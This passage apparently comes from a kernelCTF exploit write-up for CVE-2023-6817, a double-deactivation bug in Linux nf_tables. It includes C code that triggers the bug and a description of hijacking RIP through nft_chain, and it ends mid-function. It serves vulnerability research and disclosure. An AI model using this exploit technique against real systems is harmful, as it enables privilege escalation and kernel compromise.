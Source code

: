 By the way, we need to send the command of step 3 and step 4 together because we need to avoid set element B being actually released before our step 4.
This code triggering the vulenrability:
```c
    char *tmp_set = "pipapo set for primitive";
    new_set_pipapo(socket,table, tmp_set, 0x40, NFT_OBJECT_CT_EXPECT);
    char *key = malloc(0x40);
    char *key_end = malloc(0x40);
    memset(key,0,0x40);
    memset(key_end,0,0x40);
    new_setelem(socket, table, tmp_set, NULL, 0, target_obj, key, 0x40, key_end, 0x40, 0);

    struct nlmsghdr **msg_list = malloc(sizeof(struct nlmsghdr *)*2);
    msg_list[0] = del_setelem_msg(table, tmp_set, key, 0x40, key_end, 0x40);
    msg_list[1] = del_set_msg(table, tmp_set);
    send_msg_list(socket, msg_list, 2);
```

## Exploit it
CVE-2023-6817 and CVE-2023-4569 are basically similar. They all lack effective checks on set elements, resulting in multiple calls to the `nft_setelem_data_deactivate` function on a set element. So we can use a method similar to CVE-2023-4569 to exploit CVE-2023-6817. If you want to learn how I exploited CVE-2023-4569, please read [here](https://github.com/google/security-research/tree/master/pocs/linux/kernelctf/CVE-2023-4569_lts/docs/exploit.md). This article will focus on the differences between the two vulnerability exploits.

Exploiting CVE-2023-6817 becomes different from exploiting CVE-2023-4569 because of this [commit](https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/commit/include/net/netfilter/nf_tables.h?h=linux-6.1.y&id=f3f0f95a023370561a9b4d2028308f8452f1e7d1):

```c
struct nft_object {
 	struct list_head		list;
 	struct rhlist_head		rhlhead;
 	struct nft_object_hash_key	key;
-	u32				genmask:2,
-					use:30;
+	u32				genmask:2;
+	u32				use;
 	u64				handle;
 	u16				udlen;
 	u8				*udata;
```
This commit changes the offset of `use` in `nft_object` from 0x30 to 0x34. This means that we cannot continue to use the method of exploit CVE-2023-4569 to control RIP (because memory alignment will prevent the nft_set_elem_expr->size of the setelement used to hijack RIP from falling at the offset 0x34). So I choose to use another target used in function 
`nft_setelem_data_deactivate`: `nft_chain`.

In function `nft_setelem_data_deactivate`, it will call `nft_verdict_uninit` finally if there's `NFT_SET_EXT_DATA` in setelement `nft_set_ext` and the type of the set->dtype is `NFT_DATA_VERDICT`:

```c
void nft_data_release(const struct nft_data *data, enum nft_data_types type)
{
	if (type < NFT_DATA_VERDICT)
		return;
	switch (type) {
	case NFT_DATA_VERDICT:
		return nft_verdict_uninit(data);
	default:
		WARN_ON(1);
	}
}

static void nft_verdict_uninit(const struct nft_data *data)
```
